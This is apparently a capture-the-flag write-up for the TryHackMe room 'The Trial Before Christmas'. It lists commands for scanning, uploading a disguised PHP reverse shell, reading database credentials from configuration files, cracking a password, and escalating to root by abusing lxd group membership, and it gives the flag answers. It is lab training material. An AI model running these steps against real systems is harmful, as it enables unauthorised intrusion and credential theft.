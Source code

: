 ```yaml
---
description: Web
---
```


# The Trial Before Christmas

## Video

## Resources

## Challenges

### Scan the machine. What ports are open?

```
nmap -sC -sV -T5 -p1-65535 10.10.243.219
```

![](<../.gitbook/assets/image (359).png>)

{% hint style="success" %}
80, 65000
{% endhint %}

### What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step.

```
gobuster dir -u http://10.10.243.219 -w /usr/share/dirb/wordlists/common.txt
```

![](<../.gitbook/assets/image (360).png>)

```
gobuster dir -u http://10.10.243.219:65000 -w /usr/share/dirb/wordlists/common.txt -x php -t 50
```

![](<../.gitbook/assets/image (362).png>)

![](<../.gitbook/assets/image (363).png>)

{% hint style="success" %}
Light Cycle
{% endhint %}

### What is the name of the hidden php page?

```
gobuster dir -u http://10.10.243.219:65000 -w /usr/share/dirb/wordlists/common.txt -x php -t 50
```

![](<../.gitbook/assets/image (364).png>)

{% hint style="success" %}
uploads.php
{% endhint %}

### What is the name of the hidden directory where file uploads are saved?

{% hint style="success" %}
grid
{% endhint %}

### Bypass the filters. Upload and execute a reverse shell.&#x20;

```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

![](<../.gitbook/assets/image (365).png>)

![](<../.gitbook/assets/image (366).png>)

![](<../.gitbook/assets/image (367).png>)

{% hint style="success" %}
No answer needed
{% endhint %}

### What is the value of the web.txt flag?



![](<../.gitbook/assets/image (368).png>)

{% hint style="success" %}
THM{ENTER\_THE\_GRID}
{% endhint %}

### Upgrade and stabilize your shell.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
```

{% hint style="success" %}
No answer needed
{% endhint %}

### Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? **username:password**

```
cd /var/www/
cd TheGrid
cd includes
cat dbauth.php
```

![](<../.gitbook/assets/image (369).png>)

{% hint style="success" %}
tron:IFightForTheUsers
{% endhint %}

### Access the database and discover the encrypted credentials. What is the name of the database you find these in?

```
mysql -u tron -p
IFightForTheUsers
show databases;
use tron;

```

![](<../.gitbook/assets/image (370).png>)

{% hint style="success" %}
tron
{% endhint %}

### Crack the password. What is it?

{% embed url="https://hashes.com/en/tools/hash_identifier" %}

![](<../.gitbook/assets/image (371).png>)

{% hint style="success" %}
@computer@
{% endhint %}

### Use su to login to the newly discovered user by exploiting password reuse.

![](<../.gitbook/assets/image (372).png>)

{% hint style="success" %}
No naswer needed
{% endhint %}

### What is the value of the user.txt flag?

{% hint style="success" %}
THM{IDENTITY\_DISC\_RECOGNISED}
{% endhint %}

### Check the user's groups. Which group can be leveraged to escalate privileges?

```
id
group
```

![](<../.gitbook/assets/image (373).png>)

{% hint style="success" %}
lxd
{% endhint %}

### Abuse this group to escalate privileges to root.

```
lxc image list
lxc init Alpine strongbad -c security.privileged=true
lxc config device add strongbad trogdor disk source=/ path=/mnt/root recursive=true
lxc start strongbad
lxc exec strongbad /bin/sh

```

![](<../.gitbook/assets/image (374).png>)

{% hint style="success" %}
No answer needed
{% endhint %}

### What is the value of the root.txt flag?

{% hint style="success" %}
THM{FLYNN\_LIVES}
{% endhint %}
